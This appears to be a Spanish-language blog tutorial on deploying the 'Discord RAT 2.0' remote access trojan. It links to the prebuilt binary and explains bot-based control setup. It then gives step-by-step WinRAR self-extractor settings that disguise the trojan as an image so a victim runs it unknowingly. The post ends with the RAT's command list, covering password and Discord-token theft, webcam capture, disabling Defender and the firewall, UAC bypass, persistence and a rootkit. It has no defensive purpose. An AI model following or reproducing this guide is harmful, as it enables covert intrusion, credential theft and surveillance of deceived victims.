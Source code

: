 ```yaml
---
title: Discord RAT
author: Fuzz3d
date: 2024-06-13
categories: [Blogging, Tutorial, Herramienta]
tags: [discord, rat, hacking]
render_with_liquid: false
---
```


# Que es un RAT?

Un troyano de acceso remoto (también conocido como RAT, del inglés Remote Access Trojan) es una herramienta que los desarrolladores de malware usan para obtener acceso y control remoto al sistema de un usuario, incluido acceso a su teclado y ratón, así como acceso a sus archivos y recursos de red. 
En lugar de destruir archivos o robar datos, un RAT permite a los atacantes controlar completamente un dispositivo móvil o de sobremesa, lo que les permite explorar aplicaciones y archivos de manera furtiva y evadir las medidas de seguridad típicas, como cortafuegos, sistemas de detección de intrusiones y controles de autenticación.
![Que es un RAT?](https://i0.wp.com/hackwise.mx/wp-content/uploads/2020/01/mejores-rat.jpg?fit=1200%2C650&ssl=1)

# DiscordRAT 2.0
Herramienta de administración remota de Discord completamente escrita en C#.

Este es un RAT controlada sobre Discord con más de 40 módulos de postexplotación.

# Creditos

El creador de la herramienta es un usuraio de GitHub **mom825** y pueden encontrar su perfil aqui junto con la herramienta -> [github.com/moom825](https://github.com/moom825)

# Preparación del RAT

Descargue el binario precompilado desde el siguiente link https://github.com/moom825/Discord-RAT-2.0/releases/tag/2.0

Primero deberá registrar un bot en el portal de desarrolladores de Discord y luego agregar el bot al servidor de Discord que desea usar para controlarlo (asegúrese de que el bot tenga privilegios de administrador en el servidor de Discord). 
Una vez creado el bot, abra "builder.exe", pegue el token del bot y pegue el ID del servidor que ha creado. 
>Si no sabes como crear un bot puedes ir al siguiente post donde se explica de forma detallada la creacion https://www.ionos.com/es-us/digitalguide/servidores/know-how/discord-bot/

![image](https://github.com/Fuzz3d/fuzz3d.github.io/assets/100166954/3493877c-072e-401b-8aab-c26700bd49a7)

# Esconder el Troyano dentro de una imagen

Es obvio que enviar el archivo Client-built.exe a una persona no funcionará de ninguna forma para que lo ejecute, es por eso que podriamos maquillar un poco nuestro rat para esconderlo dentro de una imagen, como hacemos esto
simple, lo que haremos es descargar una imagen cualquiera de internet y con la herramienta Winrar seguiremos estos pasos:
- Seleccionamos el ejecutable Client-built.exe junto con la imagen y le daremos a "Añadir al archivo"
- Debemos activar la opcion "Crear un archivo autoextraible" 
- En el apartado Avanzado > Autoextraible > Instalacion haremos que al extraer los archivos primero se abra la imagen y luego nuestro backdoor
- Dentro de las opciones avanzadas iremos a donde dice "Modos" y seleccionaremos las opciones "Descomprimir en una carpeta temporal" y "Ocultar todo"
- Proximamente lo que haremos será cambiar el icono de nuestro archivo, esto lo haremos dentro de la ventana "Texto e icono" > "Cargar icono desde fichero" es importante antes de realizar este paso convertir nuestra imagen en un archivo ico, esto lo podemos hacer facilmente en una pagina de internet
- Para terminar nos iremos a la ventana "Actualizar" y marcaremos "Extraer y actualizar ficheros" junto con "Sobreescribir todos los ficheros"

Luego, si los pasos anteriores fueron exitosos, puede iniciar el archivo ejecutando su troyano personalizado. Creará un nuevo canal y publicará un mensaje en el servidor con un número de sesión generado.
¡Ahora tu bot debería estar disponible para usar!

![image](https://github.com/Fuzz3d/fuzz3d.github.io/assets/100166954/0a185d8f-428e-46c4-a726-4daa9f7d4c99)

# Comandos 

```
Available commands are :
--> !message = Show a message box displaying your text / Syntax  = "!message example"
--> !shell = Execute a shell command /Syntax  = "!shell whoami"
--> !voice = Make a voice say outloud a custom sentence / Syntax = "!voice test"
--> !admincheck = Check if program has admin privileges
--> !cd = Changes directory
--> !dir = display all items in current dir
--> !download = Download a file from infected computer
--> !upload = Upload file to the infected computer / Syntax = "!upload file.png" (with attachment)
--> !uploadlink = Upload file to the infected computer / Syntax = "!upload link file.png"
--> !delete = deletes a file / Syntax = "!delete / path to / the / file.txt"
--> !write = Type your desired sentence on computer
--> !wallpaper = Change infected computer wallpaper / Syntax = "!wallpaper" (with attachment)
--> !clipboard = Retrieve infected computer clipboard content
--> !idletime = Get the idle time of user's on target computer
--> !currentdir = display the current dir
--> !block = Blocks user's keyboard and mouse / Warning : Admin rights are required
--> !unblock = Unblocks user's keyboard and mouse / Warning : Admin rights are required
--> !screenshot = Get the screenshot of the user's current screen
--> !exit = Exit program
--> !kill = Kill a session or all sessions / Syntax = "!kill session-3" or "!kill all"
--> !uacbypass = attempt to bypass uac to gain admin by using windir and slui
--> !shutdown = shutdown computer
--> !restart = restart computer
--> !logoff = log off current user
--> !bluescreen = BlueScreen PC
--> !datetime = display system date and time
--> !prockill = kill a process by name / syntax = "!kill process"
--> !disabledefender = Disable windows defender(requires admin)
--> !disablefirewall = Disable windows firewall(requires admin)
--> !audio = play a audio file on the target computer / Syntax = "!audio" (with attachment)
--> !critproc = make program a critical process. meaning if its closed the computer will bluescreen(Admin rights are required)
--> !uncritproc = if the process is a critical process it will no longer be a critical process meaning it can be closed without bluescreening(Admin rights are required)
--> !website = open a website on the infected computer / syntax = "!website www.google.com"
--> !disabletaskmgr = disable task manager(Admin rights are required)
--> !enabletaskmgr = enable task manager(if disabled)(Admin rights are required)
--> !startup = add to startup(when computer go on this file starts)
--> !geolocate = Geolocate computer using latitude and longitude of the ip adress with google map / Warning : Geolocating IP adresses is not very precise
--> !listprocess = Get all process's
--> !password = grab all passwords
--> !rootkit = Launch a rootkit (the process will be hidden from taskmgr and you wont be able to see the file)(Admin rights are required)
--> !unrootkit = Remove the rootkit(Admin rights are required)
--> !getcams = Grab the cameras names and their respected selection number
--> !selectcam = Select camera to take a picture out of (default will be camera 1)/ Syntax "!selectcam 1"
--> !webcampic = Take a picture out of the selected webcam
--> !grabtokens = Grab all discord tokens on the current pc
--> !help = This help menu
```
